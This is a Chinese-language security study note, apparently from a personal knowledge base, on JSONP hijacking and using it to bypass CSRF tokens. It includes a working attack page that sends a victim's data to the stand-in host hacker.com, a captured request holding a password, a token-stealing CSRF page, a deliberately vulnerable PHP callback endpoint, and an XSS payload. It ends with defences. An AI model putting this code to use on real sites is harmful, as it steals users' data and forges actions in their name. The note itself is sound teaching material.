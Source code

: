 ```yaml
---
aliases: []
tags: ['Security','date/2022-11','year/2022','month/11']
date: 2022-11-30-星期三 19:56:15
update: 2022-12-01-星期四 14:36:58
---
```


## JSONP介绍

说起[[跨域]]请求资源的方法，最常见的方法是JSONP/CORS。下面以具体的例子介绍一下[[跨域#JSONP|JSONP]]的工作原理。

JSONP全称是JSON with Padding ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

JSONP原理就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。

比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

JSONP劫持，实质上算是一种读类型的CSRF，在恶意的网页中构造恶意的JS代码，当合法用户点击该网页，由于目标站点存在JSONP劫持漏洞的接口，因此会将用户的该接口对应的信息劫持，并将其发送到攻击者的服务器。

## JSONP劫持

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，hacker怎么去获取到这些信息呢，我们可以自己构造一个页面，然后诱惑用户去点击，在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上。

没错JSONP劫持类似于[[前端安全：CSRF|CSRF]]漏洞，步骤大概如下图所示：

![[_attachment/img/1666134937.png]]

利用代码如下所示：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
function hehehe(obj){
    var myForm = document.createElement("form");
    myForm.action="http://hacker.com/redirect.php";
    myForm.method = "GET";
    for ( var k in obj) {
        var myInput = document.createElement("input");
        myInput.setAttribute("name", k);
        myInput.setAttribute("value", obj[k]);
        myForm.appendChild(myInput);
    }
    document.body.appendChild(myForm);
    myForm.submit();
    document.body.removeChild(myForm);
}
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=hehehe"></script>
</body>
</html>
```

诱惑用户访问此html，会以用户的身份访问`http://localhost/callback.php?callback=hehehe`,拿到敏感数据，然后执行hehehe函数，将数据发送给`http://hacker.com/redirect.php`。抓包可以拦截到如下请求包：

```http
GET /redirect.php?customername1=user1&password=12345678 HTTP/1.1
Host: hacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.133.136.120/test.html
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。

## 利用JSONP绕过token防护进行csrf攻击

具体的实例可以看看参考文章2，3。

通过上面例子，我们知道JSONP可以获取敏感的数据，在某些情况下，还可以利用JSONP劫持绕过token限制完成csrf攻击。

假设有个场景是这样：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf\_token，然后提交表单，造成csrf漏洞。示例利用代码如下(来自参考文章2)：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。

## JSONP劫持挖掘与防御

对于漏洞挖掘，我们首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的，计划以后的文章中再说)

对于JSONP劫持的防御，其实类似于csrf的防御。以下来源于参考文章4:

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss

## 参考

- [JSONP 劫持原理与挖掘方法](https://www.k0rz3n.com/2019/03/07/JSONP%20%E5%8A%AB%E6%8C%81%E5%8E%9F%E7%90%86%E4%B8%8E%E6%8C%96%E6%8E%98%E6%96%B9%E6%B3%95/)
- [JSONP绕过CSRF防护token](https://xz.aliyun.com/t/5143)
- [分享一个jsonp劫持造成的新浪某社区CSRF蠕虫](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)
- [JSONP 安全攻防技术](https://blog.knownsec.com/2015/03/jsonp_security_technic/)
